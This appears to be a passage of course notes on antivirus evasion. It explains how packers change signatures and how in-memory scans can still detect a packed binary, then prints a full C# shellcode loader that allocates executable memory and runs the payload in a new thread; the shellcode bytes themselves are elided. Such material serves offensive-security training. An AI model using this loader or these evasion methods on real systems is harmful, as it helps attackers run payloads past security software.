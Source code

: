 		- Okay, so the way packer's bypasses AV is that by restructuring the executable, it will generate a new signature that the AV don't have in its database.

- AV solutions, however, could still catch your packed application for a couple of reasons:

		- While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
		- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

### Packing our Shellcode

- Let's start from a basic `C#` shellcode. You can also find this code in Windows machine at `C:\Tools\CS Files\UnEncStagelessPayload.cs`:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
